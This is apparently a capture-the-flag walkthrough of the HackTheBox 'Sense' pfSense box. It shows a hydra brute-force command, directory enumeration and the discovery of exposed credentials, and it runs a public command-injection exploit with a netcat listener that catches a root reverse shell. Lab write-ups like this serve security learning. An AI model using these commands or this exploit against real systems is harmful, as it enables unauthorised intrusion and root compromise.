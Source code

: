 `Box: Linux`
`Level: Easy`
### Index
1. [[#Box Info]]
2. [[#Initial Nmap Scan]]
3. [[#`Web`]]
	1. [[#`Hydra to bruteforce login page`]]
	2. [[#`Directory and File Enumeration using GoBuster`]]
	3. [[#`pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection`]]

### `Box Info`
```
Sense, while not requiring many steps to complete, can be challenging for some as the proof of concept exploit that is publicly available is very unreliable. An alternate method using the same vulnerability is required to successfully gain access.
```

### `Initial Nmap Scan`
```
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-title: Did not follow redirect to https://sense.htb/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/http lighttpd 1.4.35
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: lighttpd/1.4.35
|_http-title: 501
|_ssl-date: TLS randomness does not represent time
```

### `Web`
###### `Hydra to bruteforce login page`
```
 hydra -l admin -P /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt  10.10.10.60 http-post-form "/index.php:usernamefld=^USER^&passwordfld=^PASS^:Username or Password incorrect"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-01 21:16:16
[DATA] max 16 tasks per 1 server, overall 16 tasks, 499 login tries (l:1/p:499), ~32 tries per task
[DATA] attacking http-post-form://10.10.10.60:80/index.php:usernamefld=^USER^&passwordfld=^PASS^:Username or Password incorrect
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-01 21:17:14
```

###### `Directory and File Enumeration using GoBuster`
```
# gobuster dir -u https://10.10.10.60/ -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,conf,zip,inc,tar -b 403,404
/index.php            (Status: 200) [Size: 6690]
/help.php             (Status: 200) [Size: 6689]
/themes               (Status: 301) [Size: 0] [--> https://10.10.10.60/themes/]
/stats.php            (Status: 200) [Size: 6690]
/css                  (Status: 301) [Size: 0] [--> https://10.10.10.60/css/]
/edit.php             (Status: 200) [Size: 6689]
/includes             (Status: 301) [Size: 0] [--> https://10.10.10.60/includes/]
/license.php          (Status: 200) [Size: 6692]
/system.php           (Status: 200) [Size: 6691]
/status.php           (Status: 200) [Size: 6691]
/javascript           (Status: 301) [Size: 0] [--> https://10.10.10.60/javascript/]
/classes              (Status: 301) [Size: 0] [--> https://10.10.10.60/classes/]
/exec.php             (Status: 200) [Size: 6689]
/widgets              (Status: 301) [Size: 0] [--> https://10.10.10.60/widgets/]
/graph.php            (Status: 200) [Size: 6690]
/tree                 (Status: 301) [Size: 0] [--> https://10.10.10.60/tree/]
/wizard.php           (Status: 200) [Size: 6691]
/shortcuts            (Status: 301) [Size: 0] [--> https://10.10.10.60/shortcuts/]
/pkg.php              (Status: 200) [Size: 6688]
/installer            (Status: 301) [Size: 0] [--> https://10.10.10.60/installer/]
/wizards              (Status: 301) [Size: 0] [--> https://10.10.10.60/wizards/]
/xmlrpc.php           (Status: 200) [Size: 384]
/system-users.txt     (Status: 200) [Size: 106]

```

The directories which says `301` above were all printing HTML text that says `404 not found` upon trying. 

The file `system-user.txt` reveals the credentals
![](sense_web0.png)

On the web `https://10.10.10.60/`, the credentials works. the password that I guessed was `pfsense`
![](sense_web1.png)
###### `pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection`

The [Exploit-DB](https://www.exploit-db.com/exploits/43560) Exploit got us the root shell.
```
# python 43560.py --rhost 10.10.10.60 --lhost 10.10.14.8 --lport 4444 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed
```

on the netcat side
```
# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.60] 48326
sh: can't access tty; job control turned off
# id
uid=0(root) gid=0(wheel) groups=0(wheel)
# cat /root/root.txt
d*****************
```

Get your user & root flag.